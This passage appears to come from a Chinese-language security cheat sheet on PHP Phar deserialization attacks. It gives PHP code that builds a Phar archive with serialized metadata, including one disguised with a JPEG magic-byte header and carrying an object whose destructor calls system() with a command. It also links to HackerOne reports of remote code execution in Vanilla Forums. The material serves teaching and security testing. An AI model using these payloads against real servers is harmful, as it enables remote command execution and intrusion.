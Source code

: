 ```php
$poc = new Phar("poc.phar");

//将所有写操作添加到缓冲区，而不修改磁盘上的存档
$poc->startBuffering();

//设置存根
$poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");

/*在存档中添加一个新文件，内容为"text"*/
$poc["file"] = "text";
//将dummy对象添加到元数据中。这将被序列化
$poc->setMetadata($dummy);
//停止缓冲并将更改写入磁盘
$poc->stopBuffering();
?>
```

* 使用`JPEG`魔术字节头创建Phar的示例，因为存根的内容没有限制。

```php
<?php
class AnyClass {
    public $data = null;
    public function __construct($data) {
        $this->data = $data;
    }
    
    function __destruct() {
        system($this->data);
    }
}

// 创建新的Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff
<?php __HALT_COMPILER(); ?>");

// 将任意类的对象作为元数据添加
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```

## 真实世界示例

* [Vanilla Forums ImportController index file_exists Unserialize 远程代码执行漏洞 - Steven Seeley](https://hackerone.com/reports/410237)
* [Vanilla Forums Xenforo password splitHash Unserialize 远程代码执行漏洞 - Steven Seeley](https://hackerone.com/reports/410212)
* [Vanilla Forums domGetImages getimagesize Unserialize 远程代码执行漏洞（严重）- Steven Seeley](https://hackerone.com/reports/410882)
* [Vanilla Forums Gdn_Format unserialize() 远程代码执行漏洞 - Steven Seeley](https://hackerone.com/reports/407552)
